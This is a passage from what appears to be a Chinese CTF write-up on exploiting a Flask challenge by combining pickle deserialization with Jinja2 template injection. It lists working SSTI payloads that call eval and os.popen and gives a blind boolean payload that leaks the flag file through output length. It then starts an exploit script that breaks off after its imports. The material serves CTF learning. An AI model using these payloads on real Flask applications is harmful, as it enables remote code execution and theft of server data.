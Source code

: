 这题貌似不通外网，反弹失败了，只好换个方法。在flask中其实也可以在反序列化中再套模板注入来实现直接回显RCE，

```
def __reduce__(self):
        return (
            render_template_string, ("{{ payload }}",))
```

python3模板注入常用的的几个payload：

```
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__

#eval
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")

#__import__
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()

''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()
```

不过这道题还有个问题，

[![](./img/200927/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/dm/1024_246_/t01d788ef9ca1b3a0b7.png)

我们return的`render_template_string()`实际是传给了data，再传入后面的`render_template()`，并没有直接让请求结束，返回结果。而`render_template_string()`是个字符串，index.html模板里是在遍历data输出：

[![](./img/200927/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/dm/1024_125_/t01097d55e0c0c313fd.png)

所以这里我们是没法直接回显的，显示的效果如下：

[![](./img/200927/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/dm/1024_385_/t01e4549ade8015a501.png)

由于字符串有多长就会遍历多少次，所以我的思路是利用显示的长度来进行布尔盲注。

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("ord(__import__('os').popen('cat flag').read()[0])*'a'") }}{% endif %}{% endfor %}
```

如果flag第一位是a，那么就会遍历输出97个`&lt;li&gt;`。

最终的利用脚本：

```
import sys
import zlib
from itsdangerous import base64_decode
import ast
import pickle
import base64
import subprocess
from flask import render_template_string

import re
import requests

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] &lt; 3:  # &lt; 3.0
```